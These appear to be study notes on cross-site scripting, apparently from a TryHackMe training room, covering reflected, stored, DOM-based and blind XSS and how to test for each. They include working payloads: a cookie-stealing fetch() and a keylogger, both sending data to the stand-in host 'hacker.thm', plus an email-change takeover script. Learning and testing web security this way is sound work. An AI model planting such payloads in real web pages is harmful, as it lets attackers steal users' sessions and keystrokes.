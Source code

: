 ## What is it?
Where malicious JavaScript gets injected into a web application with the intention of being executed by other users
# XSS Payloads:
The payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do, the modification is the changes to the code we need to make it execute as every scenario is different
## Checking for XXS
Demonstrate that you can achieve XSS on a website by causing an alert box to pop up on the page with a string of text, for example:
```
<script>alert('1');</script>
```
### Session Stealing
Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
### **Key Logger:**
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
### Business Logic:
calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:
```
<script>user.changeEmail('attacker@hacker.thm');</script>
```
Now that the email address for the account has changed, the attacker may perform a reset password attack.
# Types of XSS
## Reflected XSS
Happens when user-supplied data in an HTTP request is included in the webpage source without any validation.
### Example:
A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the **error** parameter in the query string and is built directly into the page source.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/a5b0dbc4d2f1f69988f82f2c5d53f6ed.png)
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/7f90b73106d655b07874943f93533f7b.png)

Can be used per this scenario:
![8e3bffe500771c03366de569c3565058.png](Cybersecurity/Cybersecurity/Screenshots/8e3bffe500771c03366de569c3565058.png)
### **Potential Impact:**  
The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.
### **How to test for Reflected XSS:**
You'll need to test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)  

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected
## Stored XSS
The XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
### Example
A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/cc2566d297f7328d91bc8552f902210e.png)
### How to Test for Stored XSS:
You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:  

- Comments on a blog
- User profile information  
- Website Listings  

Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 

Once you've found some data which is being stored in the web application,  you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected
## DOM Based XSS
### What is DOM?
DOM stands for **D**ocument **O**bject **M**odel and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source. A diagram of the HTML DOM is displayed below:
![24a54ac532b5820bf0ffdddf00ab2247.png](Cybersecurity/Cybersecurity/Screenshots/24a54ac532b5820bf0ffdddf00ab2247.png)
### Exploiting the DOM
DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.
#### Example
The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.
### How to Test
DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**.

Look for `eval()` JavaScript method being used in source code.
## Blind XSS
Your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.
### Example
A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.
### How to Test:
you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more
